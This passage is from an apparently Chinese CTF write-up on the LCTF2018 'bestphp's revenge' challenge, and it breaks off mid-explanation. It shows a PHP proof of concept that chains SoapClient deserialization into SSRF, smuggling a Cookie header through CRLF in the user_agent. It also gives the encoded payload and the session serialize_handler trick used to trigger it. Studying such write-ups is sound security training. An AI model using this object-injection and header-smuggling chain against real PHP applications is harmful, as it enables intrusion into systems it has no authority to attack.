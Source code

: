 执行代码后，如下图所示，成功发送POST数据：

###### bestphp's revenge

bestphp's revenge 这道题利用的就是这个点，即对 SoapClient 类进行反序列化触发 SSRF，并配合CRLF构造payload。

进入题目，给出源码：

扫描目录发现flag.php：

可见当REMOTE_ADDR等于127.0.0.1时，就会在session中插入flag，就能得到flag。很明显了，要利用ssrf。

但是这里并没有明显的ssrf利用点，所以我们想到利用PHP原生类SoapClient触发反序列化导致SSRF。并且，由于flag会被插入到session中，所以我们就一定需要携带一个cookie即PHPSESSID去访问它来生成这个session文件。

写出最后的POC：

```php
    <?php
    $target = "http://127.0.0.1/flag.php";
    $attack = new SoapClient(null,array('location' => $target,
        'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",
        'uri' => "123"));
    $payload = urlencode(serialize($attack));
    echo $payload;
```

生成payload：

`O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D`

这里这个POC就是利用CRLF伪造本地请求SSRF去访问flag.php，并将得到的flag结果保存在cookie为
`PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的session中。

然后，我们就要想办法反序列化这个对象，但这里有没有反序列化点，那么我们怎么办呢？我们在题目源码中发现了session_start();，很明显，我们可以用session反序列化漏洞。但是如果想要利用session反序列化漏洞的话，我们必须要有
`ini_set()` 这个函数来更改 `session.serialize_handler`
的值，将session反序列化引擎修改为其他的引擎，本来应该使用ini_set()这个函数的，但是这个函数不接受数组，所以就不行了。于是我们就用session_start()函数来代替，即构造
`session_start(serialize_handler=php_serialize)` 就行了。我们可以利用题目中的
`call_user_func($_GET['f'], $_POST);`
函数，传入GET：/?f=session_start、POST：serialize_handler=php_serialize，实现
`session_start(serialize_handler=php_serialize)`
的调用来修改此页面的序列化引擎为php_serialize。

所以，我们第一次传值先注入上面POC生成的payload创建并得到我们的session：

此时，我们成功将我们php原生类SoapClient构造的payload传入了 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4`
的session中，当页面重新加载时，就会自动将其反序列化。但此时还不会触发SSRF，需要触发 `__call`
方法来造成SSRF，该方法在访问对象中一个不存在的方法时会被自动调用，所以单纯反序列化还不行，我们还需要访问该对象中一个不存在的方法，这里就用到了如下这段代码：

```php
    $a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
    call_user_func($b, $a);
```

我们可以利用extract函数将变量b覆盖为call_user_func，这样，就成了：
